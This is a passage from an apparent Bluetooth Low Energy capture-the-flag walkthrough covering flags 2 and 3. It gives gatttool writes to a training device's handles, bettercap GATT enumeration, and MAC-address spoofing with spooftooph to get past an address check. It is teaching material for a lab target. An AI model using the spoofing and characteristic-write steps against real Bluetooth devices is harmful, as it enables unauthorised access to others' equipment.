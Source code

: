 ```bash
$ gatttool -b AA:BB:CC:DD:EE:FF --char-write-req -a 0x002e -n $(echo -n "5d696cdf53a916c0a98d" | xxd -ps)
Characteristic value was written successfully
```

### Check Your Score
Navigate back to the scoreboard by writing `0x0000` to `0x0030`.

```bash
$ gatttool -b AA:BB:CC:DD:EE:FF --char-write-req -a 0x0030 -n 0000
```
You can check your progress for flag 2 by using `bettercap` or reading handle `0x0038` with `gatttool`. You should see that flag 2 is now complete.

![](/static/ble_enum_flag_2_complete.png)


## Flag 3

### Navigate to Flag 3 Challenge

Navigate to challenge 3 by writing `0x0003` to handle `0x0030`
```bash
$ gatttool -b AA:BB:CC:DD:EE:FF --char-write-req -a 0x0030 -n 0003
```

### View Gatt Table

Use `bettercap` to enumerate its characteristics again.
```bash
$ sudo bettercap
```
```
> ble.recon on
> ble.recon off
> ble.enum AA:BB:CC:DD:EE:FF
```

![](/static/ble_enum_flag_3.png)

We can see that it is looking for a device with the MAC address `11:22:33:44:55:66` to connect to it.

## View the Interface MAC Address

Use `hciconfig` to view the MAC address of the interface.

![](/static/hciconfig.png)

### Spooftooph

We can spoof our mac address with the tool `spooftooph`. (Make sure to use `sudo`)
```
$ sudo spooftooph -i hci0 -a 11:22:33:44:55:66
```
![](/static/spooftooph.png)
